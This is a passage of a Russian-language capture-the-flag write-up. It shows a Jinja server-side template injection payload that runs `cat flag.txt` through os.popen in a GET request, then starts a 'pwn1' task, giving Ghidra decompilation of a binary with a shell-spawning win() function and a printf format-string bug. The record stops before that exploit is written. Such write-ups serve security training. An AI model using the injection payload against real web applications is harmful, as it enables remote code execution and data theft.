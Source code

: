 `render_template_string` из Jinja исполняет пользовательский ввод (произвольный код), однако перед этим санитизирует его.

Сформируем следующую полезную нагрузку: `{{url_for.__globals**__**.os.popen("cat+flag.txt").read()}}`

Она позволит подставить вместо имени пользователя содержимое файла `flag.txt`

Итоговый запрос выглядит следующим образом:

```python
GET //flag?name={{url_for.__globals**__**.os.popen("cat+flag.txt").read()}} HTTP/1.1
```

Получаем флаг: **`nto{Ht1P_sM088Lin6_88Ti}`**




# pwn1

Нам дан файл `main`, посмотрим что он из себя представляет, 

```bash
file main
main: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=8e276da154d4dc6cd38651cd352286ab3b28768d, for GNU/Linux 4.4.0, not stripped
```

ELF-бинарник, 64 битный, круть

Закинем в дизассемблер, (в частности, ghidra)

Есть пара фунцкий, нас интересуют: `main`, `win`

Gосмотрим на декомпиль 

В `win` можем увидеть вызов шелла, так что фактически задача сводится к перенаправлению программы сюда [0x00401156]:

```c
void win(void)

{
  system("/bin/sh");
  return;
}
```

Декпомпиль `main` выглядит следующим образом:

```c

void main(void)

{
  long in_FS_OFFSET;
  char local_418 [1032];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  fgets(local_418,0x400,stdin);
  printf(local_418);
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
